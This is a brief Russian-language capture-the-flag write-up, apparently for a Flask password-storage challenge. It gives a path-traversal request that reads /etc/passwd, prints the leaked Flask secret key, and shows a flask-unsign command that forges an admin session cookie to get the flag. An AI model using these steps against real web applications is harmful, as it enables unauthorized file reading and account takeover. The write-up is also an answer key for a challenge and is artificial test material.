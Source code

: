 
### решение
0) Регистрируемся
1) В функционале перевода паролей в csv находим lfi:
```sh
http://address:31337/download?fn=../etc/passwd
```


2) (сложная часть) находим файл /app/config.py, видим там секрет, которым подписываются сессии фласка
```sh
90e714e15f86badc25dd703620d8151d
```

3) Подписываем этим ключем токен
```sh
flask-unsign --sign --cookie "{'username': 'admin'}" --secret '90e714e15f86badc25dd703620d8151d'
```
В сохраненных паролях админа будет флаг

Примечание: флаг по пути /flag.txt фейковый